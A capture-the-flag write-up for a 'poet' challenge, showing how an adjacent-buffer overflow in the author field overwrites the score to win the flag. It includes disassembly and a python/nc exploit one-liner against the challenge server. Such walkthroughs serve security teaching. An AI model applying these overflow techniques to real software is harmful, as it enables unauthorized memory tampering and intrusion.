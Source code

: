 # Challenge poet

44 Points

## Challenge

We are looking for the poet of the year:

nc 35.207.132.47 22223

Difficulty estimate: very easy

## Solution

A first analysis shows that the poet binary is a little game where you can enter a poem and and author and get points for it. The goal is to achieve 1'000'000 point. If we just run the program with some random values, we get 0 points:

```
root@blackbox:# ./poet

**********************************************************
* We are searching for the poet of the year 2018.        *
* Submit your one line poem now to win an amazing prize! *
**********************************************************

Enter the poem here:
> something
Who is the author of this poem?
> me

+---------------------------------------------------------------------------+
THE POEM
something
SCORED 0 POINTS.

SORRY, THIS POEM IS JUST NOT GOOD ENOUGH.
YOU MUST SCORE EXACTLY 1000000 POINTS.
TRY AGAIN!
+---------------------------------------------------------------------------+

```

After running "strings" on the assembly, there are some interesting strings defined in the binary:
```
root@blackbox:# strings poet
[...]
ESPR
sleep
repeat
capture
flag
[...]
```

If we use this words in the poem, we get 100 points for each word we use. Additionally, we can also use "eat" (which was not displayed in the string output, but worked anyway). But the problem is, even when we print "eat" (the smallest word) 10'000 times, we get a buffer overflow (seg fault). So the solution will contains some kind of buffer overflow. Maybe we can override the score with 1mio?

After looking at the strings output, 2 length definition of a printf or scanf can be found: %.64s and %.1024s, so maybe this is the length of the 2 variables for the poem and the author. In the disassembly of poet some interesting lines can be found:

```
## in the function get_poem: (load the destination address of the gets call)
40094a:	48 8d 3d 4f 17 20 00 	lea    rdi,[rip+0x20174f]        # 6020a0 <poem>

## in the function get_author: (load the destination address of the gets call)
40097a:	48 8d 3d 1f 1b 20 00 	lea    rdi,[rip+0x201b1f]        # 6024a0 <poem+0x400>

## in the function rate_poem: (add 100 point to the score)
40080c:	83 05 cd 1c 20 00 64 	add    DWORD PTR [rip+0x201ccd],0x64        # 6024e0 <poem+0x440>
```

The poem, the author and the score are saved in the same memory region, so lets try to overflow the author variable (since this variable is the nearest to the score) and put 1'000'000 (binary f4240 or 40420F - depending if the system is using big oder little endian) as score.

So do this, the input must first be a poet, followed by a newline character and then 64 characters (not important what character) to fill the buffer of "author". After that, we can put our payload (1'000'000 as HEX):
```
root@blackbox:# (python -c "print 'A\n' + 'A' * 64 + '\x40\x42\x0f'"; cat -) | nc 35.207.132.47 22223

**********************************************************
* We are searching for the poet of the year 2018.        *
* Submit your one line poem now to win an amazing prize! *
**********************************************************

Enter the poem here:
> Who is the author of this poem?
>
+---------------------------------------------------------------------------+
THE POEM
A
SCORED 1000000 POINTS.

CONGRATULATIONS

THE POET
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

RECEIVES THE AWARD FOR POET OF THE YEAR 2018!

THE PRIZE IS THE FOLLOWING FLAG:
35C3_f08b903f48608a14cbfbf73c08d7bdd731a87d39

+---------------------------------------------------------------------------+
```

And there we got the flag :confetti_ball:
